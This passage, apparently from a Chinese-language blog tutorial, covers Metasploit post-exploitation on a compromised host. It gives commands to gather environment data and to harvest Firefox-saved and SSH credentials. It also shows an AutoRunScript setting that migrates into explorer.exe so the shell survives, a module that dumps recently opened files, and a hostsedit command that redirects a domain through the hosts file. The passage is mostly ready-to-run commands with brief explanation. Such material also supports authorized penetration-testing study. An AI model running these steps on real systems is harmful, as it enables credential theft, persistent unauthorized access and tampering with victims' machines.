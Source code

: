 可以从shell的窗口处使用`net user`查看存在的用户

6.进一步了解目标主机的系统环境信息

```
 run post/multi/gather/env 

```

<img src="https://img-blog.csdnimg.cn/20200724194125414.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/>

6.查看关于火狐浏览器登陆的web appliaction 账号密码

假设目标系统安装了火狐浏览器，并将账号密码设置为保存在浏览器中

```
run post/multi/gather/firefox_creds 

```

7.ssh保存账号查看

```
 run post/multi/gather/ssh_creds 

```

8.检测系统上的一个程序是否为恶意软件<br/>
例如：

```
 run post/multi/gather/check_malware REMOTEFILE=c:\\a.exe

```

#### <a id="shell_548"/>拿到shell后立刻执行脚本

一般情况下，payLoad都有高级参数，里面存在一个advanced的高级选项。<br/>
<img src="https://img-blog.csdnimg.cn/20200725094424536.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/><br/>
可以看到有一个 `AutoRunScript`  参数，这个参数就是在执行payload后，立刻执行脚本。

例如：`set AutoRunScript migrate -n explorer.exe`<br/>
这个语句的意思就是一旦拿到shell，立刻将进程迁移到explorer.exe中，避免注入的有毒exe被杀死后，shell丢失。

或者其他脚本，例如，立刻查看目标主机最近打开的文件

```
set AutoRunScript post/windows/gather/dumplinks

```

如果先后有执行顺序的两个脚本，可以在`InitialAutoRunScript`选项内添加一个最先执行的脚本。

修改hosts文件

```
run hostsedit -e 1.1.1.1,www.baidu.com

```

